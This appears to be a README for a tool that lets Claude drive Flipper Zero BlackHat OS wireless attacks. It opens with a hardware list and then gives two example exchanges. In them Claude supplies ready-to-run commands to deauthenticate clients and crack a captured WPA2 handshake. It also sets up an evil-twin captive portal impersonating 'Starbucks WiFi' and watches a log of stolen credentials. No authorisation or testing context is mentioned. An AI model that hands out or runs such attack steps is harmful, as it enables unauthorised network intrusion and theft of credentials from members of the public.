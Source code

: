 ## 🔧 Hardware Requirements

- **Flipper Zero** with WiFi Dev Board
- **BlackHat OS** installed ([flipper-blackhat-os](https://github.com/o7-machinehum/flipper-blackhat-os))
- **Dual WiFi interfaces** (wlan0 onboard + wlan1 USB dongle recommended)

## 💡 Usage Examples

### Example 1: WPA2 Handshake Capture

**User**: "How do I capture a WPA2 handshake?"

**Claude** (with this skill):
```bash
# 1. Connect SSH via wlan0
bh set SSID "YourNetwork"
bh set PASS "password"
bh wifi con wlan0

# 2. Scan for targets
bh deauth_scan wlan1

# 3. Start capture
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan1

# 4. Force handshake (new terminal)
bh deauth 11:22:33:44:55:66 AA:BB:CC:DD:EE:FF wlan1 50

# 5. Verify
aircrack-ng handshake-01.cap
```

### Example 2: Evil Twin Setup

**User**: "Create an evil twin for 'Starbucks WiFi'"

**Claude**:
```bash
# Configure
bh set AP_SSID "Starbucks WiFi"

# Force clients to disconnect from real AP
bh deauth_all <REAL_AP_MAC> wlan1

# Deploy captive portal
bh evil_portal

# Monitor captured credentials
tail -f /var/log/evil_portal.log
```
